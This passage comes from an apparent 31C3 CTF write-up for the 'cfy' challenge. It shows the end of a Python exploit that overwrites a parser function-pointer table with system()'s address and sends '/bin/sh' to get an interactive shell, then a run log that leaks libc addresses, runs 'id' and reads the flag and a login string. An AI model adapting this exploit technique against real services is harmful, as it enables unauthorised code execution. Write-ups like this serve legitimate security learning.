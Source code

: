 ```python
payload += p(SYSTEM)    # address of system() will be stored in buf
payload += p(SYSTEM)    # buf+8
payload += p(SYSTEM)    # buf+16
payload += "\n"

s.send(payload)
print s.recv(200)

payload = ""
payload += "7\n"        # use an address further into buf (parsers+7*16)
payload += "/bin/sh\n"  # because this will overwrite the first few bytes

s.send(payload)         # send payload, causing it to call system('/bin/sh')

t = telnetlib.Telnet()  # interact with spawned shell
t.sock = s
t.interact()
```

I ran the script and crossed my fingers:

```bash
bas@tritonal:~/tmp/31c3/cfy$ python exploit.py 
What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit


Please enter your number: dec: 140686779126752
hex: 0x7ff4317e93e0

What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit

[+] found printf: 7ff4317e93e0
[+] system at 7ff4317d9b30

Please enter your number: 
dec: 0
hex: 0x0

What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit

Please enter your number: id
uid=1001(cfy) gid=1001(cfy) groups=1001(cfy)
cat /home/cfy/flag
THANK YOU WARIO!

BUT OUR PRINCESS IS IN
ANOTHER CASTLE!

Login: cfy_pwn // 31C3_G0nna_keep<on>grynding
```
